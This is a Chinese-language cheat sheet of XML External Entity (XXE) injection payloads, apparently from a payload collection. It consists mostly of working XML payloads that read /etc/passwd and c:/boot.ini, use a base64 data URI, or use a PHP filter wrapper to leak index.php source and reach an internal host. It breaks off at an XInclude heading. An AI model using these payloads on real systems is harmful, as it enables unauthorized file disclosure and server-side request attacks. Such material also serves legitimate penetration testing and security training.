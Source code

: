 ```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

:warning: `SYSTEM` 和 `PUBLIC` 几乎是同义词。

```ps1
<!ENTITY % xxe PUBLIC "随机文本" "URL">
<!ENTITY xxe PUBLIC "任意文本" "URL">
```

### 经典XXE Base64编码

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP包装器在XXE内部

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```

### XInclude攻击

当你不能修改**DOCTYPE**元素时，使用**XInclude**来定位
